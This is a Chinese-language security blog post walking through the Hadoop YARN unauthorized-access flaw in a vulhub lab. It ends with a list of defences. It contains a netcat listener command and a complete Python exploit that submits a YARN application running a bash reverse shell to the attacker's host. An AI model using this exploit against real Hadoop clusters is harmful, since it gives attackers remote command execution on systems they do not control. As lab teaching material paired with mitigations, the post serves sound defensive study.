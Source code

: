 # Hadoop未授权访问漏洞



#### 漏洞简介以及危害
Hadoop是一个由Apache基金会所开发的分布式系统基础架构,由于服务器器直接在开放了了
Hadoop 机器器 HDFS 的 50070 web 端口及部分默认服务口口,黑客可以通过命令行操作多个目录下
的数据,如进行删除,下载,目录浏览甚至命令行行等操作,产生极大的危害。



#### 环境
vulnhub



#### 测试
启动环境
```bash
docker-compose up -d
```

访问
```
http://192.168.0.100:8088/cluster
```
![](http://image.geoer.cn/Hadoop.png)


**通过REST API命令执行**
利用过程：
在本地监听端口 > 创建Application > 调用Submit Application API提交
1.本机监听
```bash
nc -lvvp 8888
```

2.直接本机执行EXP：`python exp.py`
```python
import requests
target = 'http://192.168.0.100:8088/'
lhost = '192.168.0.105' # put your local host ip here, and listen at port 8888
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
'application-id': app_id,
'application-name': 'get-shell','am-container-spec': {
'commands': {
'command': '/bin/bash -i >& /dev/tcp/%s/8888 0>&1' % lhost,
},
},
'application-type': 'YARN',
}
requests.post(url, json=data)

```

3.反弹shell成功
![](http://image.geoer.cn/Hadoop_shell.png)


#### 防御手段
- 如无必要, 关闭 Hadoop Web 管理⻚面。
- 开启身份验证 ,防止未经授权用户访问。
- 设置“安全组”访问控制策略,将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访包括 50070 以及 WebUI 等相关端口。













---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/hadoop%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E/  

